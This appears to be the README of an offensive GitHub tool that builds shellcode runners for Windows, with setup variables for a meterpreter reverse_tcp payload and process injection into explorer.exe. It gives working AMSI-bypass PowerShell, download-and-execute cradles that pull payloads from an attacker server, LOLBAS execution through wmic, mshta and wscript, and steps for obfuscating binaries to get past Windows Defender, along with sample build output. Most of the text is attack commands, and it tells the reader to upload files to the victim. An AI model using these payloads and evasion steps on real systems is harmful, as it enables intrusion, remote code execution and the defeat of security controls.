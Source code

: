 # Description

## Usage

### Folders
| Name | Description |
| --- | --- |
| Templates | Containing Shellcode Runners with and without encryption in various formats. |
| payloads | Containing Shellcode Runners that can executed. |
| ConfuserEx | Compiled files of ConfuserEx GitHub project. |
| Net-Obfuscate | Compiled files of Net-Obfuscate GitHub project.|


### Static Variables 
| Variables | Description |
| --- | --- |
| PROCESS_TO_INJECT | Contains the remote process name that you want to inject into. |
| MSFVENOM_PAYLOAD | MSF Payload |
| LHOST | Listener IP |
| LPORT | Listener Port | 

```
#!/bin/bash
...
PROCESS_TO_INJECT="explorer.exe"
MSFVENOM_PAYLOAD="windows/x64/meterpreter/reverse_tcp"
LHOST="192.168.100.128"
LPORT=443
...
```

### Payload prefixes
| Name | Description |
| --- | --- |
| _embedded | If the generated payload contains the word **embedded** then the **shellcode** is located inside the generated executable. |
| _marshal | If the generated payload contains the word **marshal** then payload will be injected to executable's memory space. |
| _numa | If the generated payload contains the word **numa** then **VirtualAllocExNuma** was used insetad of **VirtualAllocEx** |
| _FlsAlloc | If the generated payload contains the word **FlsAlloc** then **FlsAlloc** API was used. |

#### Payload Example
When payload is generated with name ```shellcode_runner_assembly_FlsAlloc_marshal.exe```, it means:
- FlsAlloc API was used
- The Shellcode will be injected to executable's address space (Not to a remote process).


## Shellcode Runners

### [+] Triple DES

The 3DES payloads are located under ```payloads/3DES/``` directory. There are two payloads and need to be executed diferrently. Password and Salt are static values but you can modified them as you need.

- **Password**: oqphnbt0kuedizy4m3avx6r5lf21jc8s
- **Salt**: vh9b4tsxrl1560wg8nda2meuc7yjzop3

#### Method 1
The executable **des_decryptor.exe** is downloading the file from your Web server and executes it reflectively.

```
cmd> des_decryptor.exe http://KALI_IP/<SHELLCODE_RUNNER>
```

#### Method 2
The executable ```des_decryptor_embeded.exe``` embedds the shellcode in base64, which before was ecrypted with ```TripleDESEncryptor.ps1```. Doesn't need command-line arguments for the execution. Upload the file to the victim and execute it.

```
cmd> des_decryptor_embedded.exe
```

----

### [+] AMSI Bypass
There are two methods to bypass AMSI:
- Patching 
- Unhooking

#### Method 1
Patching template is what Offensive-Security teaches in OSEP with some small changes. The execution of 1st method (Patching) is straight forward and uses well-known methodologies.

```
$m="System.Management.Automation.Ams";[Ref].Assembly.GetType("$m"+"iUtils").GetField('amsiInitFai'+'led','NonPublic,Static').SetValue($null,$true)
```

```
# XOR RAX,RAX 
$buf = [Byte[]] (0x48,0x31,0xC0)  
```

**Execute AMSI Shellcode runner**

You can copy the ```payloads/AMSI/shellcode_runner.txt``` to your web server as ```shellcode_runner.html```
``` 
powershell -nop -exec bypass -c IEX((New-Object Net.WebClient).DownloadString('http://<IP>/shellcode_runner.html')); 
``` 

#### Method 2
To unhook AMSI, I've used the project by **jfmaes - AmsiHooker** (https://github.com/jfmaes/AmsiHooker) and I permfored some small changes. When AmsiHooker executable will launched, it will download the Shellcode Runner from your web server and it will reflectively execute it.

**Steps**
1. Upload ```unhook_amsi.exe``` and ```MinHook.NET.dll``` to victim. (Files located under ```payloads/AMSI/```)
2. Copy your shellcode runner (```payloads/XOR/``` or ```payloads/Caesar/```) to your web server folder.
3. ```unhook_amsi.exe http://<KALI>/shellcode_runner.exe```

---

### [+] Executing .XSL, .JS, .HTA

Under directory ```payloads/DotNetToJScript/```, you find three shellcode ruuners that generated with **DotNetToJScript** (https://github.com/tyranid/DotNetToJScript). 

**Executing .XSL shellcode runner**
```
wmic process list /FORMAT:evil.xsl
wmic os get /FORMAT:"https://example.com/evil.xsl"
```

**Executing .HTA shellcode runner**
```
mshta c:\users\public\shellcode_runner.hta
```

**Executing .JS shellcode runner**
```
wscript c:\users\public\shellcode_runner.js
```

More execution methods can be found:
- https://lolbas-project.github.io/


### [+] ConfuserX + Net-Obfuscator

During my tests, I noticed that Windows Defender could detect payloads genereted by **ConfuserEx** (https://github.com/yck1509/ConfuserEx). For this reason, I combined ```ConfuserEx + Net-Obfuscator``` (https://github.com/BinaryScary/NET-Obfuscate). 

First, payloads that are located under ```payloads/XOR/``` and ```payloads/Caesar/``` directories, feed the **ConfuserEx** tool and subsequently the new obfuscated binaries are imported to **Net-Obfuscator**. As a result, the GetType and GetMethod values are obfuscated and  dynamically created.

**Example 1** - Execution of ```payloads/Caesar/shellcode_runner_assembly_numa.exe``` Reflectively.
```
[+] Creating DLL/EXE file (ConfuserEx + .NET Obfuscator) ...

 [!] Obfuscating CAESAR -> shellcode_runner_assembly_numa.exe
 [*] PS>$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/shellcode_runner.exe|dll')
 [*] PS>$ass=[System.Reflection.Assembly]::Load($data)
 [*] PS>$ass.GetType("J46IIOTXPW.PZAZUJAD4V").GetMethod("NK6WAROB2W").Invoke($null,$null)
```

## Output
If everything goes well, you will get an output as bellow:

```
[+] Generating a shellcode ...
[+] Reading the shellcode.txt ...
[+] Appending Shellcode ...
[+] Compile the CS file...
[+] Generating Encrypted shellcodes ...
[+] Creating DLL files...
[+] Creating EXE file ...
[+] Creating C++ EXE (plus UPX) ...
[+] Creating JS file ...
[+] Creating HTA file ...
[+] Creating XSL file ...
[+] Creating TXT file ...
[+] Creating web.config file (Non-Encrypted)...
[+] Creating ASPX file (Non-Encrypted) ...
[+] Unhooking AMSI ...
 [*] Upload unhook_amsi.exe and MinHook.NET.dll to the victim 
 [*] Files are unders: payloads/AMSI/
 [*] Execution: unhook_amsi.exe http://<KALI>/shellcode_runner.exe 
[+] Generating a 3DES Shellcode Runner ...
 [*] Execution of 3DES ...
 [1] Example: des_decryptor.exe "http://<KALI>/shellcode_runner_assembly_3des.exe"
 [2] Example: des_decryptor_embeded.exe
[+] Creating DLL/EXE file (ConfuserEx + .NET Obfuscator) ...

 [!] Obfuscating CAESAR -> shellcode_runner_assembly_numa.exe
 [*] PS>$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/shellcode_runner.exe|dll')
 [*] PS>$ass=[System.Reflection.Assembly]::Load($data)
 [*] PS>$ass.GetType("J46IIOTXPW.PZAZUJAD4V").GetMethod("NK6WAROB2W").Invoke($null,$null)
/*--------------------------------------------------------------------*/
 [!] Obfuscating CAESAR -> shellcode_runner_assembly_numa_marshal.exe
 [*] PS>$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/shellcode_runner.exe|dll')
 [*] PS>$ass=[System.Reflection.Assembly]::Load($data)
 [*] PS>$ass.GetType("W8VME5GGM7.GU8I0TEEI0").GetMethod("T5HOQF3C9C").Invoke($null,$null)
/*--------------------------------------------------------------------*/
...More...
```



